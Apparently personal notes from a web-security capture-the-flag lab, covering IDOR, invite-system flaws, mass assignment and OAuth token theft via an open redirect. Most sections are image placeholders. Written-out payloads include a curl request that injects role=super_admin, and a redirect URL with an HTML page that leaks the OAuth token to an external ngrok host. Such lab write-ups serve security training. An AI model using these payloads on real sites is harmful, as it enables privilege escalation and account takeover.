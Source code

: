 ___

# IDOR

```
GET https://0hl3b40h.eu1.ctfio.com/api/v1/user/2
```

![[Pasted image 20241217171151.png]]

![[Pasted image 20241217171523.png]]

# Invite Systems

![[Pasted image 20241217172150.png]]

![[Pasted image 20241217172208.png]]

## 1

![[Pasted image 20241217172546.png]]

![[Pasted image 20241217172642.png]]

# Mass Assigment

Response,
```json
const user = {"id":1,"username":"ben","role":"user"};
```

```bash
curl 'https://69xknhzf.eu1.ctfio.com/settings' --compressed -X POST -H 'Cookie: token=9435b4e9dd38cf2a8458fb3  
167186173' --data-raw 'website=http%3A%2F%2Fwww.google.com&phone=123456789&bio=Test&role=super_admin'
```

![[Pasted image 20241217175156.png]]

# OAuth Flow using Open Redirect

```js
document.location.hash.substr(1)
```

```
https://auth.fluorite.ctfio.com/auth?client_id=1&redirect_url=https://fluorite.ctfio.com/redirect?url=https://e949-83-213-97-233.ngrok-free.app/test.html/&response_type=token
```

```html
<html>
<head>
<title>Hello World :-)</title>
</head>
<body>

Hello World :-)
<script>
window.location = 'x/'+document.location.hash.substr(1)
</script>

</body>
</html>
```

